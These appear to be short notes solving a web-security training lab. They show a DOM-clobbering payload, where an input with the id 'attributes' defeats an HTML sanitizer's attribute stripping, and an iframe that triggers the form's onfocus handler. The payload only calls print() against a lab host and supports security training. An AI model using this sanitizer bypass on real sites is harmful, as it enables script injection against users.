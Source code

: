 	•	It repeatedly rewrites firstPElement.innerHTML (fragile pattern).

```
<form id=author><input name=href value="javascript:print()"></form>
```
Does break out to get an HTML form but doesn't execute JS because it isn't called again but we know form is the right tag now. 
That is because within the janitors/sanitizers its stripping dangerous attributes by iterating through named nodes but inside the form any descendant control with an ID or name is property of the form. 
```
<form id=x tabindex=0 onfocus=print()>
  <input id=attributes>
</form>
```
on exploit server: call the form's onfocus by loading in an iframe:
```
<iframe src=https://0aae000b034fa06382d03e7f0064006f.web-security-academy.net/post?postId=7 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```
	•	<input id=attributes> clobbers form.attributes on your <form id=x>.
	•	That breaks the sanitizer’s “strip attributes” step for the form, so tabindex + onfocus stay.
	•	Navigating to #x focuses the form (thanks to tabindex=0), which fires onfocus=print().



